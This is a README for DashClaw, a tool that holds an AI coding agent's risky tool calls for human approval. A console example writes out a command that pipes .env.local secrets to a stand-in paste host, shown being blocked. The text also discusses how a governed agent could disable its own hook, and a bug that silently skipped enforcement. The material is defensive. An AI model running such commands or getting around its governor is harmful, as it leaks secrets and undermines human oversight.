


<div align="center">
  

  <h1>DashClaw</h1>

  <p><strong>When your AI coding agent tries something destructive, DashClaw catches it before it runs and asks you first, even when you are not at the keyboard.</strong></p>

  <p>Run agents unattended without giving them unconditional authority.</p>

  <p>
    <a href="https://github.com/ucsandman/DashClaw/actions/workflows/ci.yml"></a>
    <a href="https://www.npmjs.com/package/dashclaw"></a>
    <a href="https://pypi.org/project/dashclaw/"></a>
    <a href="https://github.com/ucsandman/DashClaw/blob/main/LICENSE"></a>
    
    
  </p>

  <p>
    <a href="https://dashclaw.io"></a>
    <a href="https://dashclaw.io/docs"></a>
    <a href="THESIS.md"></a>
    <a href="docs/maintainer-log.md"></a>
  </p>

  <sub>
    <a href="#what-you-get">What you get</a> &nbsp;·&nbsp;
    <a href="#what-it-actually-stops">What it stops</a> &nbsp;·&nbsp;
    <a href="#the-loop-in-code">The loop</a> &nbsp;·&nbsp;
    <a href="#what-dashclaw-is-not">What it is not</a> &nbsp;·&nbsp;
    <a href="#quick-start">Quick start</a> &nbsp;·&nbsp;
    <a href="#connect-an-agent">Connect an agent</a>
  </sub>
</div>

```bash
npx dashclaw up      # no account, first caught action in minutes
```

> **AI agents:** setting DashClaw up for your user? Run `npx dashclaw up --yes --no-browser` — the plain command prompts and will hang a non-interactive shell. The API key lands in `~/.dashclaw/instance.json`; verify with `GET http://localhost:3000/api/health` and `npx dashclaw doctor`. Full runbook: [dashclaw.io/llms.txt](https://www.dashclaw.io/llms.txt). Do not attempt the hosted trial headlessly — its captcha needs your human.

<div align="center">
  <br />
  
  <br />
  <sub>An agent tries a destructive tool call. DashClaw freezes it before it runs, routes it to the Approvals inbox, and writes a replayable decision record when you resolve it.</sub>
  <br />
  <sub><a href="https://www.dashclaw.io/media/marketing/launch.mp4">▶ Watch the 55-second launch film</a> (with the full walkthrough) or see it on <a href="https://www.dashclaw.io">dashclaw.io</a>.</sub>
</div>

## What you get

A 10-second capability scan before the dense sections:

- **Fail-closed intercept.** A blocked tool call never runs. The hook cancels it before execution (exit 2 at the seam).
- **One-click remote approval.** Resolve from the `/approvals` inbox, the CLI, a phone PWA, Telegram, or Discord. No presence required.
- **Tamper-evident audit.** Every decision lands in a signed, replayable ledger, and anyone can verify a receipt without an API key (Ed25519, key published via JWKS).
- **Calibrated interruptions.** Your approve/deny verdicts tune how often it interrupts, with a proven cap on false interruptions instead of a guessed threshold.
- **Proof enforcement is still on.** A liveness probe drives a synthetic held action through the real hook path and verdicts by whether it actually executed. Stale never renders green.
- **Prompt-injection scanning on by default.** High-confidence system-override patterns force a `block` at guard time; weaker ones raise a `warn`.
- **Multi-runtime.** Claude Code, Codex, Hermes, OpenClaw, MCP, Node and Python SDKs, plain REST.
- **$0 to self-host.** One command locally, or Vercel plus Neon on their free tiers.

## What it actually stops

DashClaw is a fail-closed approval layer that sits between an agent *deciding* to call a tool and the tool *actually running*. Not a dashboard that records what an agent did after the fact. The thing that stops the agent mid-action.

These are the catches on the record, from the [maintainer log](docs/maintainer-log.md) and [THESIS.md](THESIS.md), each one the same loop firing:

- `rm -rf` on a working directory
- `DROP TABLE` against a live database
- `git push --force origin main`
- reading `.env` and preparing to exfiltrate it (risk 100, two policies firing at once)

The last one caught the maintainer's *own* shell command mid-verification: extracting an API key from `.env.local`, blocked live at risk 100. Here is roughly what the seam does with it:

```console
$ agent> Bash: cat .env.local | curl -X POST https://paste.example/ -d @-
  DashClaw guard  risk=100  policies_matched=2
  decision=block  (fail-closed, hook exit 2)
  -> tool call cancelled. never executed. decision recorded in the ledger.
```

The audience is narrow on purpose: a solo developer or small team running long, **unattended** coding-agent sessions (overnight runs, CI agents, background fleets) against a real repo and real infrastructure. You kick off a one-to-six-hour run, cannot watch every tool call, and are one bad run away from any of the four lines above.

**Honesty about the incumbent.** Claude Code and Codex ship native permission prompts for the at-keyboard user, for free, and DashClaw does not try to beat them at that. The wedge is the job those prompts structurally cannot do because they need you present: remote and async approval, one central policy across every runtime and session, a tamper-evident audit trail, calibrated interruptions, and a probe that proves enforcement is still on.

## The loop in code

It is 2am, the run is in hour three, and the agent reasons its way to `git push --force origin main`. You are asleep, so a native prompt would just stall the run until morning. DashClaw is the third option: it freezes the call and pages you wherever you are, you tap deny from bed, and a signed receipt records the whole thing.

Four calls. The hook seam runs them for you inside Claude Code, Codex, and Hermes; the SDK below is the same thing done explicitly.

```javascript
import { DashClaw } from 'dashclaw';
const claw = new DashClaw({ baseUrl: process.env.DASHCLAW_BASE_URL, apiKey: process.env.DASHCLAW_API_KEY, agentId: 'nightly-agent' });

// 1. Decide. Attach the real act; the server classifies from evidence, and evidence can only raise risk, never lower it.
const g = await claw.guard({ action_type: 'shell', act: { kind: 'shell', command: 'git push --force origin main' } });
const action = await claw.createAction({ action_type: 'shell', declared_goal: 'Force-push the rebased branch' });

// 2. Freeze until a human resolves it, from anywhere. Grants are single-use and bound to this exact act.
if (g.decision === 'require_approval') await claw.waitForApproval(action.action_id);

// 3. Close the record. One-shot and durable (retry-safe): the first outcome wins, later writes 409.
try { await run(); await claw.reportActionSuccess(action.action_id, 'Pushed'); }
catch (err) { await claw.reportActionFailure(action.action_id, err.message); }
```

Python is the same shape in `snake_case`. Full example: [`QUICK-START.md`](QUICK-START.md). Method catalogues: [`sdk/README.md`](sdk/README.md), [`sdk-python/README.md`](sdk-python/README.md).



The decision lattice is `allow < warn < allow_contained < require_approval < block`. Join is `max`; a `block` is absolute and cannot be downgraded in the ledger. `allow_contained` only ever reaches a caller that advertised `client_capabilities: ['allow_contained']`; an older client sees `require_approval` instead (version skew only tightens).

> [!IMPORTANT]
> **Enforcement is mechanically real only where DashClaw sits in the seam between decide and execute:** the Claude Code, Codex, and Hermes PreToolUse hooks (fail-closed, exit-2 on block), the OpenClaw gateway, and `dashclaw_invoke`. Everywhere else (bare SDK, API, and MCP callers, desktop chat) governance is **cooperative**: the caller consults guard and honors the decision, every call is still recorded, and a block is never downgraded in the ledger. DashClaw does not claim universal hard enforcement, and this README never will. And even at the mechanical seam, the hook runs at the agent's own privilege level — it is a **seatbelt against accidents, not a cage against intent**. An agent with write access to the hook path can, in principle, disable its governor; DashClaw makes that act blocked-by-policy and loudly visible (control-plane `block` policy, liveness probe, `executed_despite` witness), but the tamper-proof boundary belongs to your deployment: a container, a separate OS user, or a read-only mount of the hook path. Per-surface table and full threat model: [`docs/architecture/enforcement-boundary.md`](docs/architecture/enforcement-boundary.md).

## What DashClaw is not

This section exists so you can rule the tool out fast if it is the wrong thing.

- **Not observability.** LangSmith and Langfuse record what happened. DashClaw prevents it from happening. If you want traces and dashboards, this is not that.
- **Not an agent platform.** No tools to help an agent achieve a goal (no calendar, CRM, messaging, RAG). It governs the goals other things pursue. The v5.0.0 cull deleted the platform tier outright and a CI [surface-budget brake](THESIS.md#the-anti-regrowth-brake) mechanically prevents it growing back.
- **Not universal hard enforcement.** Enforcement is mechanical only at the seam (the hooks, the OpenClaw gateway, `dashclaw_invoke`); everywhere else it is cooperative. See the boundary note above.
- **Not tamper-proof against the agent it governs.** The hook runs at the agent's privilege level, inside the blast radius of the thing it governs. It stops the accident class and makes tampering visible and policy-blocked; it cannot stop a determined process executing at the same privilege. Real isolation is a deployment property — container, separate OS user, or read-only hook path — and DashClaw's docs say so instead of pretending otherwise.
- **Not battle-tested at scale.** First commit was February 2026. It is proven by continuous dogfood, not by a large install base. See [Project status](#project-status).

Full product definition and everything explicitly out of scope: [`THESIS.md`](THESIS.md).

## Maintained by an AI, under a human-held charter

Day-to-day, DashClaw is built and maintained by an AI agent, in public. That agent operates under a human-held charter, [`MAINTAINER.md`](MAINTAINER.md), which pins five invariants it **cannot** change:

1. **Blocks are absolute.** A `block` is never downgraded, in the ledger or anywhere else.
2. **No self-approval.** The maintainer cannot approve its own governed actions.
3. **Humans ratify every loosening.** Any policy relaxation routes through a human-ratified proposal.
4. **Credentials stay human.** API keys and secret values never move to the maintainer.
5. **Claims are proven live.** If a claim in the docs cannot be demonstrated against the running system, it does not ship.

Every decision the maintainer makes is on the record in the [maintainer log](docs/maintainer-log.md). Governing autonomous agents is the exact problem DashClaw exists to solve, so the project governs its own maintainer with its own runtime. That is the source of the sharpest design constraints below, not a gimmick. Honesty is a brand pillar here, which is why the enforcement boundary, the blackout, and the liveness incident are all in this README on purpose.

## Quick start

```bash
npx dashclaw up
```

One command provisions Postgres (Docker or embedded), generates secrets, mints your API key, applies migrations, starts on `:3000`, offers to wire Claude Code hooks, and opens your browser already signed in. No account required on the path to your first caught action.

<details>
<summary><strong>Deploy to the cloud for $0, or try the hosted inbox first</strong></summary>

<br />

[](https://vercel.com/new/clone?repository-url=https%3A%2F%2Fgithub.com%2Fucsandman%2FDashClaw&env=DATABASE_URL,DASHCLAW_API_KEY,ENCRYPTION_KEY,NEXTAUTH_SECRET,NEXTAUTH_URL,CRON_SECRET,DASHCLAW_LOCAL_ADMIN_PASSWORD&envDescription=Required%20DashClaw%20configuration.%20See%20.env.example%20for%20details.&envLink=https%3A%2F%2Fgithub.com%2Fucsandman%2FDashClaw%2Fblob%2Fmain%2F.env.example&project-name=my-dashclaw&repository-name=my-dashclaw&products=%5B%7B%22type%22%3A%22integration%22%2C%22integrationSlug%22%3A%22neon%22%2C%22productSlug%22%3A%22neon%22%2C%22protocol%22%3A%22storage%22%7D%5D&skippable-integrations=1)

Vercel free tier plus Neon free tier is $0. Click the button, add Neon when prompted, fill in the env vars from [`.env.example`](.env.example). The schema migration runs during the build.

The hosted trial is the **secondary** door: to see the Approvals inbox before deploying anything, [hosted.dashclaw.io](https://hosted.dashclaw.io/connect) mints a capped trial workspace in the browser. Coming from the trial, click **Export workspace** on its `/connect` card and run `dashclaw import <bundle.json>` against your own instance. Policies, decisions, history, agents, and assumptions carry over; API keys and secret values never ride a bundle. Operator runbook: [`docs/hosted-deployment-runbook.md`](docs/hosted-deployment-runbook.md).

</details>

## Connect an agent

Every path lands on the same guard engine, the same decision ledger, and the same Approvals inbox. The enforcement column is honest about which paths halt mechanically and which are cooperative.

| Your agent runs on | Path | Enforcement | Guide |
|---|---|---|---|
| Claude Code | Plugin + PreToolUse hooks | Mechanical, fail-closed | [claude-code.md](docs/integrations/claude-code.md) |
| Codex | Plugin | Mechanical, fail-closed | [plugins/dashclaw](plugins/dashclaw/) |
| Hermes Agent | Plugin (lifecycle hooks) | Mechanical, fail-closed | [hooks/README.md](hooks/README.md) |
| OpenClaw | Gateway plugin | Mechanical | [packages/openclaw-plugin](packages/openclaw-plugin) |
| `dashclaw_invoke` (MCP) | Guarded invoke | Mechanical | [mcp.md](docs/integrations/mcp.md) |
| Claude Desktop (chat) | OAuth connector, no install | Cooperative | [CLAUDE-DESKTOP-PLUGIN.md](docs/CLAUDE-DESKTOP-PLUGIN.md) |
| Any stdio / HTTP MCP host | MCP server | Cooperative | [mcp.md](docs/integrations/mcp.md) |
| LangChain / CrewAI / AutoGen | Python SDK | Cooperative | [sdk-python/README.md](sdk-python/README.md) |
| Custom / framework-less | Node or Python SDK | Cooperative | [sdk/README.md](sdk/README.md) |
| Anything HTTP | REST API + webhooks | Cooperative | [OpenAPI](docs/openapi/critical-stable.openapi.json) |

End-to-end examples per runtime: [`examples/`](examples/).

<details>
<summary><strong>Commands for each path</strong></summary>

<br />

**Coding-agent plugins (Claude Code, Codex, Hermes).** One plugin source ([`plugins/dashclaw/`](plugins/dashclaw/)), three ecosystems. Each manifest ships the MCP config, the `dashclaw-governance` protocol skill, and a distinct `agent_id`.

```bash
npm i -g @dashclaw/cli
dashclaw install claude                          # wires ~/.claude/settings.json, fresh installs default to enforce
dashclaw install codex --project /path/to/repo   # wires manifest, hooks, AGENTS.md protocol
bash scripts/install-hermes-plugin.sh            # macOS / Linux (.ps1 on Windows)
```

Claude Code hooks govern Bash, Edit, Write, MultiEdit, sub-agent spawns, and every `mcp__*` call with a fail-closed PreToolUse check. Fresh installs start in enforce mode (the seeded catastrophe pack holds the irreversible class); pass `--observe` or set `DASHCLAW_HOOK_MODE=observe` to log without blocking, and re-installs keep whichever mode you chose. Observe mode is loud, never silent: `/approvals` and `/decisions` show a red banner while any agent reports it, unenforced verdicts render "Logged, not enforced" in the ledger, and a gated action that executes anyway gets an `executed_despite` witness stamp from PostToolUse — a logged block is never presented as an enforced one. Verify the wiring fires:

```bash
echo '{"tool_name":"Bash","tool_input":{"command":"echo hello"},"tool_use_id":"t1","session_id":"smoke"}' | python .claude/hooks/dashclaw_pretool.py
```

**MCP server (zero code).** [`@dashclaw/mcp-server`](mcp-server) exposes **17 governance MCP tools** across core governance, retrospection, identity, team tasks, and plans, plus 3 read-only resources (`dashclaw://policies`, `dashclaw://agent/{agent_id}/history`, `dashclaw://status`).

```json
{ "mcpServers": { "dashclaw": { "command": "npx", "args": ["@dashclaw/mcp-server"],
  "env": { "DASHCLAW_URL": "https://your-dashclaw.vercel.app", "DASHCLAW_API_KEY": "oc_live_xxx" } } } }
```

Every instance also serves Streamable HTTP MCP at `/api/mcp`. For Claude Desktop, add that URL as a custom connector (Settings, Connectors); OAuth auto-discovers, no key in the UI.

**SDKs.** `npm install dashclaw` (Node 18+) or `pip install dashclaw` (Python 3.7+). The **39-method canonical Node surface** covers guard, record, assumptions, approvals, durable-execution finality, security scanning, sessions and the action graph, pairing, risk signals, policy simulation, plan authorization, delegation constraints, containment verdicts, and team tasks. The **Python SDK exposes 59 methods**, plus CrewAI and AutoGen integrations.

**REST.** Every primitive is HTTP. The stable contract is pinned in [`docs/openapi/critical-stable.openapi.json`](docs/openapi/critical-stable.openapi.json); the full inventory (**127 routes**: 41 stable, 18 beta, 68 experimental) is in [`docs/api-inventory.md`](docs/api-inventory.md). Webhooks: `decision.created`, `action.created`, `lost_confirmation`, configurable per org.

</details>

## The governance model

Control before execution, not observability after it. Seven points, each falsifiable:

1. **Every risky action is evaluated against active policies before it runs.** Policies are declarative. The builder ships with ten pre-built safety switches (Deploy Gate, Risk Threshold, Rate Limiter, Evidence Required, Protected Path, Subagent Constraint, and others across 15 guard policy types), an AI generator, and YAML import.
2. **The default pack is catastrophe-only.** Seeded automatically for every new self-hosted org, it interrupts for the irreversible class: it blocks mass-destructive filesystem, git, and database actions outright, and holds writes to secret files (`.env`, `*.pem`, `*.key`, `secrets/**`) for one-click approval. A warn-only rate limit nets runaways; everything else runs. This is a documented lesson, not a preference. See below.
3. **Sensitive actions require human approval, and the approval is one click.** Approvals route to `/approvals`, the CLI, the mobile PWA at `/approve`, Telegram, or Discord. When one policy blows its interruption budget, per-action pings collapse into one flood banner with bulk-resolve. Pending approvals are never auto-resolved.
4. **Every decision is recorded and outcomes are durable.** A five-state finality machine plus a lost-confirmation sweep guarantee no silent double-execute on retry. Spec below and in [`docs/architecture/durable-execution-finality.md`](docs/architecture/durable-execution-finality.md).
5. **Interruption precision is calibrated, not guessed.** A distribution-free controller ([`/calibration`](docs/architecture/governance-core-theory.md), default off) turns your approve/deny verdicts into a proven false-interruption bound. Shadow-first, tighten-only; loosening always routes through human-ratified proposals.
6. **Enforcement proves it is still on.** A liveness probe drives a synthetic held action through the real hook seam and verdicts by whether it executed, never by reading the ledger. Because once it did not, and nothing noticed. Stale never renders green.
7. **Prompt-injection scanning is on by default.** High-confidence system-override patterns force a `block` at guard time; lower-severity patterns raise a `warn`.

<details>
<summary><strong>Why each of those is the way it is (the incidents behind the design)</strong></summary>

<br />

**The 18-day blackout (point 2).** The reference deployment ran with all policies off for 18 days in June 2026 because the default pack fired an approval roughly every ten seconds. That is why the default is catastrophe-only: a governor you disable is worse than none. Cited in [MAINTAINER.md](MAINTAINER.md) and [THESIS.md](THESIS.md).

**The governor caught asleep (point 6).** In v4.72.1 a hook timeout was set to `3600000` in a field Claude Code reads as *seconds*; the harness multiplied by 1000, `3.6e9` ms overflowed the 32-bit timer ceiling, the timer fired immediately, and the harness cancelled the hook and ran the tool anyway. Every block and every approval wait was silently skipped, including a `block` on `git push origin main`. The worst part: the orphaned hook process lived long enough to land its guard call, so the ledger kept filling with decisions that *looked* enforced. Maximum false confidence. That incident is the entire reason the liveness probe (v4.75.0) verdicts by execution and not by the ledger. Story: [`docs/maintainer-log.md`](docs/maintainer-log.md).

**The calibration bound (point 5).** The controller is the Gibbs-Candes online adaptive conformal recursion on a monotone decision loss, with a deterministic false-interruption bound: for any adjudication sequence (arbitrary drift, arbitrary dependence, adversarially chosen), the realized false-interruption rate is at most `α + (b − θ₁)/(γT)`. With shipped constants (`γ=2, θ₁=80, b=102`) the excess above target is `≤ 11/T`: within 0.1 of target after ~110 labeled adjudications, within 0.01 after ~1100. No distributional assumptions. Proof sketch: [`docs/architecture/governance-core-theory.md`](docs/architecture/governance-core-theory.md).

**Signed, verifiable receipts (point 4).** Each `non_fabrication` decision attempts to attach an Ed25519 proof receipt proving the verdict, the ruleset version (a content hash of the source of truth), and the issuer signature; signing is best-effort and never gates the verdict. The compliance export is a signed, hash-chained bundle. Anyone can re-verify at `POST /api/integrity/verify` with **no API key**. The signing key is the instance's own Ed25519 key, published via JWKS. Contract: [`docs/architecture/runtime-api.md`](docs/architecture/runtime-api.md).

**The anti-regrowth brake.** A 2026-03 SDK cull regrew to full sprawl in four months because the promised CI gate never shipped. This time `scripts/check-surface-budget.mjs` counts every governed surface and fails CI when any exceeds its v5.0.0 ceiling. Raising a ceiling requires amending [`THESIS.md`](THESIS.md#the-anti-regrowth-brake) and `contracts/surface-budget.json` in the same commit with a written reason.

</details>

Architecture map: [`PROJECT_DETAILS.md`](PROJECT_DETAILS.md). Runtime API contract: [`docs/architecture/runtime-api.md`](docs/architecture/runtime-api.md).

## Durable execution finality

Approved actions carry a terminal outcome separate from their lifecycle status. Five states, one-shot transitions, enforced at the repository layer.

| State | Meaning |
|---|---|
| `pending` | Approved, no outcome reported yet. |
| `completed` | Finished successfully. Set by the agent. |
| `partial` | Started but did not finish. Set by the agent with a progress payload. |
| `failed` | Attempted and errored. Set by the agent with an error message. |
| `lost_confirmation` | Timeout exceeded without a report. Set by the cron sweep. |

`POST /api/actions/[actionId]/outcome` is one-shot: the first call wins, every later POST returns 409. A cron sweep marks stale pending rows `lost_confirmation` and emits a `signal.detected` event, so a retry can never silently double-execute. Spec: [`docs/architecture/durable-execution-finality.md`](docs/architecture/durable-execution-finality.md).

## Approvals, from anywhere

`waitForApproval()` unblocks near-instantly over SSE when any surface resolves the action, falling back to ~5-second polling.

| Surface | What it is | Setup |
|---|---|---|
| Dashboard (`/approvals`) | The primary inbox: what your agent tried, what waits on you, two buttons per item. | None |
| CLI (`@dashclaw/cli`) | Terminal inbox: `dashclaw approvals`, `dashclaw approve <id>`. | `npm i -g @dashclaw/cli` |
| Mobile PWA (`/approve`) | Phone-first allow/deny with risk score and policy. Add to home screen. | None |
| Telegram | Inline Approve/Reject in an admin chat. | [telegram-setup.md](docs/telegram-setup.md) |
| Discord | Inline Approve/Deny on DM embeds. | [`.env.example`](.env.example) |

<div align="center">
  
  <br />
  <sub>The decisions ledger. Every governed action, its risk score, its verdict, and its outcome, replayable.</sub>
</div>

## Documentation

**[docs/README.md](docs/README.md) is the full index**, ordered by adoption journey (understand, try, connect, operate, reference). Highlights:

- [Concepts](docs/concepts.md): the mental model, risk scoring, what "block" means per surface.
- [Quick start](QUICK-START.md) · [Governing Claude Code](docs/integrations/claude-code.md) · [Governing agents over MCP](docs/integrations/mcp.md).
- [Operating DashClaw](docs/operations.md): policies, approvals, the ledger, the emergency halt, doctor.
- [Troubleshooting](docs/troubleshooting.md): the errors you will actually see, with fixes.
- [Node SDK](sdk/README.md) · [Python SDK](sdk-python/README.md) · [SDK parity matrix](docs/sdk-parity.md).
- [Agent identity](docs/agent-identity.md): JWKS verification, replay protection, action binding.
- [Runtime API](docs/architecture/runtime-api.md) · [Guard enforcement contract](docs/guard-enforcement-contract.md) · [Governance core theory](docs/architecture/governance-core-theory.md).
- [Durable execution finality](docs/architecture/durable-execution-finality.md) · [API inventory](docs/api-inventory.md) · [Security guide](docs/SECURITY.md) · [Changelog](CHANGELOG.md).

## Project status

Stated plainly, because a security tool that oversells itself is a liability:

- **Young and fast-moving.** First commit February 2026; releases land near-daily. The API surface is tiered for exactly this reason: 41 stable routes pinned in the [OpenAPI contract](docs/openapi/critical-stable.openapi.json), 18 beta, 68 experimental. Build against stable; experimental can change without notice.
- **Proven by dogfood, not by scale.** The core loop runs continuously against the maintainer's own agent fleet and a CI policy-smoke harness that live-proves the public claims on every push. External production deployments are early. Treat this as young infrastructure that takes correctness seriously, not a battle-tested incumbent.
- **AI-maintained, human-governed, in public.** Day-to-day maintenance is done by an AI agent under the human-held charter in [MAINTAINER.md](MAINTAINER.md), whose five invariants (above) the maintainer cannot change. Every decision is on the record in the [maintainer log](docs/maintainer-log.md).

## Contributing and license

Issues and PRs are welcome on [github.com/ucsandman/DashClaw](https://github.com/ucsandman/DashClaw). If DashClaw caught something on one of your runs, a GitHub star is the honest signal that the wedge is real.

[MIT](LICENSE)

<div align="center">
  <br />
  <sub>Built by <a href="https://practicalsystems.io">Practical Systems</a></sub>
</div>
